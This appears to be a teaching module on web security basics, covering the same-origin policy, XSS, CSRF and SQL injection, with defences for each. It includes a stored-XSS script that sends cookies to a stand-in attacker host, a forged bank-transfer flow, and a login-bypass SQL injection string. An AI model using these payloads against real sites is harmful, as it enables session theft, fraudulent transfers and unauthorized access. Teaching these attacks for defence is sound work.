

# Module 04: Networking — Web Security Fundamentals (OWASP)

---

## 1. Same-Origin Policy (SOP) & CORS

### 1.1 The Same-Origin Policy (SOP)
The browser's **Same-Origin Policy** restricts scripts loaded by one origin from interacting with resources from another origin.
- An **Origin** is defined strictly by the tuple: `(Protocol / Scheme, Hostname, Port)`.

```
Compare against Base: https://www.example.com:443/dir/page.html
• https://www.example.com/dir2/other.html  ===> SAME ORIGIN (Matches scheme, host, port)
• http://www.example.com/dir/page.html     ===> CROSS ORIGIN (Different scheme: http vs https)
• https://api.example.com/dir/page.html    ===> CROSS ORIGIN (Different host: api vs www)
• https://www.example.com:8080/dir/page.html===> CROSS ORIGIN (Different port: 8080 vs 443)
```

---

### 1.2 Cross-Origin Resource Sharing (CORS)
CORS is an HTTP-header-based mechanism that allows a server to explicitly loosen the Same-Origin Policy for trusted external origins.



---

## 2. Cross-Site Scripting (XSS)

XSS occurs when malicious JavaScript code is injected into otherwise trusted web applications and executed in the victim's browser context.

```
┌────────────────────────────────────────────────────────────────────────┐
│                        XSS TAXONOMY                                    │
└───────────────────────────────────┬────────────────────────────────────┘
                                    │
          ┌─────────────────────────┼─────────────────────────┐
          ▼                         ▼                         ▼
┌───────────────────┐     ┌───────────────────┐     ┌───────────────────┐
│    STORED XSS     │     │   REFLECTED XSS   │     │   DOM-BASED XSS   │
├───────────────────┤     ├───────────────────┤     ├───────────────────┤
│ Payload persisted │     │ Payload reflected │     │ Vulnerability is  │
│ in database       │     │ immediately from  │     │ in client-side JS │
│ (e.g. comment)    │     │ URL query string  │     │ execution sink    │
└───────────────────┘     └───────────────────┘     └───────────────────┘
```

### 2.1 Attack Mechanisms
- **Stored XSS**: Attacker submits `<script>fetch('http://attacker.com/steal?cookie=' + document.cookie)</script>` into a blog comment form. Every user loading the blog post executes the script.
- **Reflected XSS**: Attacker crafts a phishing link: `https://bank.com/search?q=<script>...</script>`. The server renders the search term directly into the response without sanitization.
- **DOM XSS**: Client-side JavaScript writes unsanitized URL fragments directly to the page: `element.innerHTML = location.hash`.

### 2.2 Defensive Countermeasures
1. **Context-Aware Output Encoding**: Encode HTML entities (`<` $\to$ `&lt;`, `>` $\to$ `&gt;`).
2. **`HttpOnly` Cookie Flag**: Prevents client-side scripts from reading session cookies via `document.cookie`.
3. **Content Security Policy (CSP)**: HTTP response header instructing browsers to restrict resource execution:
   ```http
   Content-Security-Policy: default-src 'self'; script-src 'self' https://trustedscripts.com;
   ```

---

## 3. Cross-Site Request Forgery (CSRF)

CSRF tricks an authenticated user's browser into transmitting unauthorized commands to a vulnerable web application where the user is currently authenticated.

```mermaid
sequenceDiagram
    participant User as Authenticated User
    participant Malicious as Evil Website (evil.com)
    participant Bank as Banking API (bank.com)

    Note over User,Bank: User logs into bank.com; session cookie set
    User->>Malicious: User visits evil.com
    Note over Malicious: evil.com contains hidden auto-submitting form:<br/>POST https://bank.com/transfer?to=attacker&amount=10000
    Malicious->>Bank: Browser automatically transmits request WITH bank.com session cookie!
    Bank->>Bank: Validates session cookie (Believes User initiated transfer)
    Bank-->>Malicious: Funds Transferred!
```

### CSRF Mitigations:
1. **Anti-CSRF Tokens (Synchronizer Token Pattern)**: Server issues a cryptographically random, unpredictable token embedded in forms. Requests must include this token; third-party sites cannot read or forge it due to SOP.
2. **`SameSite` Cookie Attribute**:
   - `SameSite=Strict`: Cookies are never sent in cross-site requests.
   - `SameSite=Lax` (Modern default): Cookies withheld on cross-site subrequests (images, iframes), but sent when the user navigates top-level.
   - `SameSite=None; Secure`: Cookies sent in all contexts (requires HTTPS).

---

## 4. SQL Injection (SQLi)

SQL Injection occurs when untrusted user input is directly concatenated into dynamic SQL queries without parameterized isolation.

```python
# VULNERABILITY (String Concatenation):
username_input = "' OR '1'='1"
password_input = "' OR '1'='1"

query = f"SELECT * FROM users WHERE user = '{username_input}' AND pwd = '{password_input}'"
# Evaluates to: SELECT * FROM users WHERE user = '' OR '1'='1' AND pwd = '' OR '1'='1'
# Result: Evaluates to TRUE for all rows, granting unauthorized root access!

# DEFENSE (Parameterized Prepared Statements):
# SQL engine compiles the query structure beforehand; user inputs are bound strictly as data values.
cursor.execute("SELECT * FROM users WHERE user = %s AND pwd = %s", (username_input, password_input))
```
